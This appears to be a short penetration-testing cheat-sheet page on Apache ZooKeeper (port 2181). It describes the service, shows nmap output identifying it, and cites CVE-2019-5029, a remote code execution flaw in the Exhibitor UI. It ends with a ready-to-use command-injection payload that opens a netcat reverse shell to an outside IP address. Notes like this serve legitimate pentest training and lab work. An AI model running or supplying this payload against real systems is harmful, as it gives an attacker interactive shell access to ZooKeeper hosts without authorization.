


---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# 2181 - ZooKeeper

Apache ZooKeeper is a centralized service designed to manage configuration, naming, synchronization, and coordination in distributed systems. It helps multiple nodes in a cluster maintain consistent state and coordinate actions, ensuring reliability and fault tolerance in complex environments. By default, ZooKeeper listens on TCP port `2181`, which is used for client connections to the service and inter-node communication within the cluster.

## RCE


```bash
# Identify ZooKeeper
PORT      STATE SERVICE     VERSION
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```


<figure><figcaption><p>ZooKeeper Exhibitor's UI.</p></figcaption></figure>

ZooKeeper Exhibitor's UI (`1.0.9` to `1.7.1`) has a RCE vulnerability ([CVE-2019-5029](https://nvd.nist.gov/vuln/detail/CVE-2019-5029)) with an available [PoC](https://www.exploit-db.com/exploits/48654):

```bash
# Payload
$(/bin/nc -e /bin/sh 192.168.45.236 80 &)
```

<figure><figcaption></figcaption></figure>
